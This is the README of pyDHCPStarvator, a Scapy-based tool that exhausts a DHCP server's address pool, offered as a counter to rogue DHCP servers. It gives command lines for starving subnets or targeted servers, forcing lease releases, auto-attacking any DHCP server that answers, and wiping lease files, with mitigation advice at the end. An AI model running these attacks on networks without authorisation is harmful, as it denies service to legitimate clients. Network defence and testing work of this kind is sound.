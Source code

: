 # pyDHCPStarvator

This is a Python program that can run out an entire DHCP pool.
pyDHCPStarvator was not created for doing network attacks but like a way to exaust a DHCP Rogue pool when security-port and dhcp-snoop features are not available in your wired or wireless network equipments.

### Requirements
````
apt install python3-dev python3-pip
pip3 install scapy-python3
pip3 install netaddr
````
It was migrated from python2 to python3, hopefully the right thing!

### Usage
````
usage: starvit.py [-h] -i I -net NET [-start N] [-end N] [-rep N]
                  [-server_id SERVER_ID] [-random_hostnames]
                  [-dst_mac DST_MAC] [-timeout TIMEOUT] [-debug]

optional arguments:
  -h, --help            show this help message and exit
  -i I                  local network interface
  -net NET              /24 subnet, example: -subnet 192.168.27.0/24
  -start N              start ip to request
  -end N                how many request will be done
  -rep N                repetition, sometime packet get lost. Default: 3
                        requests per ip
  -server_id SERVER_ID  DHCP server id, example: 192.168.27.254
  -random_hostnames     random client hostnames, othrewise client's hostname
                        will be: ?
  -dst_mac DST_MAC      Destination DHCP MAC address, default:
                        ff:ff:ff:ff:ff:ff
  -timeout TIMEOUT      seconds to wait between a request and another. example
                        -timeout 0.2
  -debug                print packets
````

##### usage examples
````
# starvation on entire network class
sudo python3 starvit.py -i eth2  -net 192.168.0.0/16  -dst_mac 08:00:27:7c:f9:41 -t 0.05

# starvation on selected ip range
sudo python3 starvit.py -i eth2  -net 192.168.1.0/24 -start 92 -end 100 -dst_mac 08:00:27:7c:f9:41

# just add a server_id as a specific target
sudo python3 starvit.py -net 192.168.1.0/24 -start 10 -end 253 -server_id 192.168.27.254

# specify server by its MAC address and print packets to stdout
sudo python3 starvit.py -net 192.168.1.0/24 -start 80 -end 100 -dst_mac 08:00:27:7C:F9:41 -debug


````

#### example stdout with -debug option
````
Requesting: 192.168.1.98
<Ether  dst=08:00:27:7C:F9:41 src=7b:7b:d1:5a:6b:62 type=IPv4 |<IP  frag=0 proto=udp src=0.0.0.0 dst=255.255.255.255 |<UDP  sport=bootpc dport=bootps |<BOOTP  chaddr=<RandMAC> options='c\x82Sc' |<DHCP  options=[message-type='request' requested_addr=192.168.1.98 end] |>>>>>
.
Sent 1 packets.
````

#### -server_id and -dst_mac
These options focus the attack on a specified endpoint, the DHCP server, by ip or mac address.

If you using a wrong server_id value all the DHCP servers in the l2 broadcast will get something similar in their logs and will not release any ip from their pool.
````
Wed May 16 17:31:35 2018 daemon.info dnsmasq-dhcp[31796]: DHCPNAK(br-lan) 192.168.27.135 30:63:3a:33:38:3a wrong server-ID
````

### Request an IP release
Usefull if you want to force a DHCP server to remove a DHCP lease and then make a client to request an ip again
````
python release_ip.py -src_mac 66:36:3a:37:31:3a -src_ip 192.168.1.93 -dst_mac 08:00:27:7C:F9:41 -dst_ip 192.168.1.1 -debug 1

````

### Send a DHCP discover and listen for event
A listener could also be executed to run a function callback for every packet sniffed.
For example we could send a gratuitous DHCP DISCOVER and listen for DHCP OFFER from rogue DHCP servers.

````
# DHCP DISCOVER
python2 dhcp_discover.py -i eth2

# DHCP event listener
python listener.py -i eth2 [-debug]

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
````

listener.py can also be runned in starvation attack mode (subprocess).
If a DHCP-OFFER has been sniffed it will automatically starvate that DHCP.
It can also whitelists one or more DHCP and attack only the ROGUE DHCP.


In this example 10.21.0.254 is whitelisted, attack will only run 
against 192.168.1.1.
````
python3 listener.py -i eth2 -starvation-attack -starvation-exclude d4:ca:6d:e6:6a:d7

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
````

To solicitate DHCP-OFFER we craft DHCP-REQUEST packets
````
python2 dhcp_discover.py -i eth2

#or
nmap --script broadcast-dhcp-discover -e eth0
````


### Results
![example](images/example.png)
An OpenWRT DHCP server used as victim.
Some fake client requests was forged with "-random_hostnames" option, some other not.

![discover](images/discover2.png)
Server side effects of DHCP Discovery, dhcp_discover.py will always use a fake mac address to run its inspections.

### Hints
````
# tcpdump activity sniffing
tcpdump -i $ifname -n 'port 67 and port 68'

# dhcp discover
nmap --script broadcast-dhcp-discover -e eth0
````
````
# dhcp leases flush
# openwrt
echo "" >  /tmp/dhcp.leases

# debian
echo "" >  /var/lib/dhcp3/dhcp.leases

````
### Attack mitigations
As previosly described a DHCP starvation is commonly prevented with:

- port-security, it permits to lock a network switch's physical port to a restricted number of mac addresses. A dhcp starvation cannot spoof mac addresses in this configuration.
- dnc-snoop, a network switch will reject DHCP packets on port 67 and 68 coming from unauthoritative DHCP servers. This commonly prevents rogue DHCP activities.

If any of these are not available but GNU/Linux is, as router, a good solution could be using iptables
````
# 67 server, 68 client
IPTABLES -I OUTPUT -i $LAN_IFACE -p udp --sport 67 -m mac ! --mac-source $YOUR_DHCP_MAC -j DROP
````
Another homemade solution would be to arping every dhcp request src and, if any response come back, remove that DHCP lease from DHCP server (see previous chapter). A FOR loop on every dhcp.leases file's row could execute an arping to check the real existence of a client, if it will be negative that row should be removed and the dhcp lease released.

### License

DHCPStarvator is made by Giuseppe De Marco and it's released under the GPL 3 license.

### Todo

- configurable MAC randomization (I found Scapy's RandMAC too much recognizable!);
- please open issues/ticket and suggest!

### Resources

- http://scapy.readthedocs.io/en/latest/#sniffing
- https://phaethon.github.io/scapy/api/
- https://blog.jasonantman.com/2010/04/dhcp-debugging-and-handy-tcpdump-filters/
- https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/
- https://github.com/foreni-packages/dhcpig

### Special thanks
To [Daniele Albrizio](https://github.com/speedj) for given a name to an idea ;)
